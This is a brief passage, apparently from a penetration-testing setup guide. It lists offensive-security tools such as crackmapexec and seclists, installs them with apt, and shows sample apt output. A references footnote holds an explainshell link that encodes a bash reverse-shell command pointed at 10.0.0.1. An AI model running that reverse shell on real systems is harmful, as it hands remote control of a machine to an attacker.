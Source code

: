```text
rdesktop
crackmapexec
exiftool
curl
seclists
testssl.sh
git
vim
tmux
```

	sudo apt install $(cat tools.list | tr "\n" " ") -y

```text
Reading package lists... Done
Building dependency tree
Reading state information... Done
The following packages were automatically installed and are no longer required: 
  libarmadillo9 libboost-locale1.71.0 libcfitsio8 libdap25 libgdal27 libgfapi0
  ...SNIP...
```

# References

[^1]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261

http://bashrcgenerator.com/  // generate a .bashrc